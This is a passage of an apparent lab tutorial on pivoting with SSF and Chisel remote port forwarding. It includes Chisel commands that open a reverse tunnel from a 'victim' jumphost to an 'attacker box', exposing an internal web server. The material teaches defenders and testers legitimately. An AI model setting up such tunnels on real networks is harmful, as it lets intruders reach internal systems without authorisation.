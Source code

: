 <img src="{{ page.image-base | prepend:site.baseurl }}/ssf_0002.png" width="100%" alt="ssf remote tcp forward">

Now at your box you can access it:

<pre><code class="bash">doeti &lt;id_outside&gt; bash 
<br>
netstat -antl | grep 8888
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN
<br>
curl http://127.0.0.1:8888
&lt;html&gt;&lt;body&gt;&lt;h1&gt;Hi from inside server&lt;/h1&gt;&lt;/body&gt;&lt;/html&gt;
</code></pre>

ssfd in the other window should show

<img src="{{ page.image-base | prepend:site.baseurl }}/ssf_0001.png" width="100%" alt="Connection to ssfd server">

In [**Port Forwarding with a tunnel - SSF**](#ssf) was described how you can secure the connection. Be aware that the files from SSF stored in the `certs` folder on the client are also the credentials for the server. 
Anyone who can get to these files can connect to your server. On the other hand, in SSF <a href="https://securesocketfunneling.github.io/ssf/#how-to-use-shell">a shell must first be activated</a>, so this access is not available by default.
Thus, it is recommended to delete all data and shutdown the server after you're done and change the files for the next time as described in ([**Port Forwarding with a tunnel - SSF**](#ssf)).

## Chisel

You can also use Chisel for remote port forwarding. To do that start your listening server at your attacker box:

<pre><code class="bash">doeti &lt;id_outside&gt;
./chisel server -p 8000 --reverse --auth pwnd:l0R3M1P5uM
</code></pre>

Connect from the victim to your listening server:

<pre><code class="bash">doeti &lt;id_jumphost&gt;
su jumphost
cd ~
./chisel client --auth pwnd:l0R3M1P5uM 192.168.1.3:8000 R:127.0.0.1:8090:192.168.2.50:80
</code></pre>

Note: You used port 8090 to map to. Like in [**Remote Port Forwarding - SSH**](#ssh-1) described if you are not root only ports >= 1024 will work.
For example if you would use port 80 you would get something like this:

<img src="{{ page.image-base | prepend:site.baseurl }}/chisel_low_port.png" width="100%" alt="Chisel Low Port">

So the easy thing to remember here is: <br> <strong>Just use ports >= 1024 to map to</strong>.

Now you can access the content you want to see at your box:

<pre><code class="bash">doeti &lt;id_outside&gt;
curl 127.0.0.1:8090
&lt;html&gt;&lt;body&gt;&lt;h1&gt;Hi from inside server&lt;/h1&gt;&lt;/body&gt;&lt;/html&gt;
</code></pre>
